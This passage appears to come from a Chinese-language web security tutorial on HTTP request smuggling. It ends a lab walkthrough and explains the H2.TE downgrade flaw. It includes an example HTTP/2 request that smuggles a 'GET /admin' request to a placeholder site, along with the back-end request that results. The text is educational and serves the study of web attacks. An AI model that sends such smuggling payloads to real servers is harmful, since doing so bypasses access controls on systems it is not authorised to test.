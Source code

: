 [![](assets/1705287960-6aa24d9f5290fa30ac5b768a50eaa2ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103523-11f71292-b02a-1.png)  
Step 5：随后完成解题

[![](assets/1705287960-f3b633932eee53bc43aece859105546e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103533-18335102-b02a-1.png)

### H2.TE vulnerabilities

HTTP/2与Chunked transfer encoding 不兼容，规范是建议在尝试插入的任何"transfer-encoding: chunked"头都应该被剥离或完全阻塞请求，如果前端服务器未能做到这一点并且随后降级了对支持分块编码的 HTTP/1 后端的请求，也将会导致请求走私攻击  
如果我们以 HTTP/2 的格式发送如下请求：

```bash
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
transfer-encoding   chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

那么此时后端请求数据报文将如下：

```bash
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
